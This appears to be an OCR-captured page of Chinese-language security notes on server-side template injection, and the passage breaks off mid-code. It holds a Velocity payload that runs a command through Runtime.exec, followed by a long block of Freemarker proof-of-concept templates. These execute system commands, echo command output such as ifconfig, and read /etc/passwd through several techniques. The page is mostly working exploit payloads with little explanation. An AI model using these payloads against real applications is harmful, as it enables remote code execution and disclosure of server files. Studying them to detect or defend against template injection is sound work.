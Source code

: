 

```java
#set($x='')$x.class.forName('java.lang.Runtime').getRuntime().exec('calc')
```

## Freemarker

https://www.cnblogs.com/Eleven-Liu/p/12747908.html

freemarker与velocity的攻击方式不太一样，freemarker可利用的点在于模版语法本身，直接渲染用户输入payload会被转码而失效，所以一般的利用场景为上传或者修改模版文件。

### poc

```html
<#assign value="freemarker.template.utility.Execute"?new()>
    ${value("calc.exe")}


    <#assign value="freemarker.template.utility.ObjectConstructor"?new()>
    ${value("java.lang.ProcessBuilder","calc.exe").start()}

    <#assign value="freemarker.template.utility.JythonRuntime"?new()>
    <@value>import os;os.system("calc.exe")</@value>

<#--    回显 -->
    <#assign ob="freemarker.template.utility.ObjectConstructor"?new()>
    <#assign br=ob("java.io.BufferedReader",ob("java.io.InputStreamReader",ob("java.lang.ProcessBuilder","ifconfig").start().getInputStream())) >
    <#list 1..10000 as t>
        <#assign line=br.readLine()!"null">
        <#if line=="null">
            <#break>
        </#if>
        ${line}
        ${"<br>"}
    </#list>

<#--    读文件 -->
    <#assign ob="freemarker.template.utility.ObjectConstructor"?new()>
    <#assign br=ob("java.io.BufferedReader",ob("java.io.InputStreamReader",ob("java.io.FileInputStream","/etc/passwd"))) >
    <#list 1..10000 as t>
        <#assign line=br.readLine()!"null">
        <#if line=="null">
            <#break>
        </#if>
        ${line?html}
        ${"<br>"}
    </#list>

    <#assign is=object?api.class.getResourceAsStream("/etc/passwd")>
    FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
    ${byte}, </#list>]

    <#assign uri=object?api.class.getResource("/").toURI()>
    <#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
    <#assign is=input?api.getInputStream()>
    FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
```